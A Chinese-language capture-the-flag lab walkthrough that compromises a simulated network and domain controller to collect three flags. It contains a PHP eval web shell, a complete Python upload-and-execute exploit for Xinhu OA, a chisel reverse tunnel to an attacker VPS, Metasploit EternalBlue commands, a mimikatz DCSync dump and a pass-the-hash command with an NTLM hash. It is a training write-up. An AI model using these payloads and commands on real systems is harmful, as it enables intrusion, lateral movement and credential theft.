<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: ``. -->


外网打点

``` Shell
fscan -h 39.98.109.170
```


ico发现是Thinkphp

Thinkphp综合利用工具

Getshell并进行传马

蚁剑连接

尝试读取root，发现并没有权限

尝试提权，suid不可利用，尝试sudo提权

mysql配置了免密使用，mysql暂时拿到root权限，使用mysql -e命令即可，使用mysql -e命令查找root用户中的flag文件

``` Shell
sudo mysql -e '\! find / -name flag*'
```


发现flag01.txt文件

读取内容

``` Shell
sudo mysql -e '\! cat /root/flag/flag01.txt'
```


扫描内网，上传fscan到`/tmp`，并给予权限


```
chmod 777 fscan
```

查看网卡信息，并进行扫描

``` Shell
ip addr
```



``` Shell
./fscan -h 172.22.1.0/24 >> fscan.txt
```


从结果可以得到目标
172.22.1.2:DC域控  
172.22.1.21:Windows的机器并且存在MS17-010 漏洞  
172.22.1.18:信呼OA办公系统
接下来搭建frp内网穿透，vps当作跳板机
上传chisel到`/tmp`，给予权限并运行

```
靶机
./chisel client vps_ip:9001 R:0.0.0.0:9002:socks

vps
./chisel server -p 9001 --reverse
```



代理成功，尝试访问信呼OA


尝试弱口令爆破进入管理系统admin/admin123，登陆以后信呼OA存在rce，直接用exp打

``` 1.php
<?php @eval($_POST['t1ng']);?>
```

两个文件须在同一目录下

``` exp.py
import requests


session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']
print(id)
print(filepath)
url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('dir');")
print(r.text)
```


蚁剑设置代理，并且按照给出路径进行连接


在`C:/Users/Administrator/flag/flag02.txt`拿到第二部分flag

先打172.22.1.21的MS17-010的永恒之蓝
配置一下kali虚拟机的socks5代理

```
vim /etc/proxychains4.conf

内容
socks5 vps_ip 9002 
```

接下来msf打永恒之蓝

```
proxychains4 msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp_uuid
set RHOSTS 172.22.1.21
exploit
```


拿到SYSTEM权限，`load kiwi`调用mimikatz模块，获取域内用户hash

```
load kiwi
kiwi_cmd "lsadump::dcsync /domain:xiaorang.lab /all /csv" exit
```


用crackmapexec打PTH拿下域控

```
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```


拿到第三段flag。

flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
